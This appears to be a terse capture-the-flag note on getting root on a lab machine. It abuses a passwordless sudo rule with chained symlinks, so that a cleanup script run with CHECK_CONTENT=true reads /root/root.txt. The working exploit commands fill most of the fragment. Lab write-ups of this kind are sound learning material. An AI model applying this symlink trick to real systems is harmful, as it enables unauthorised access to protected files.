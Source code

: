 escalete privilege to root

we have sudo no pass for file
![[Pasted image 20250123133054.png]]


ln -s /root/root.txt 1.txt
ln -s /home/bob/1.txt 1.png
sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/1.png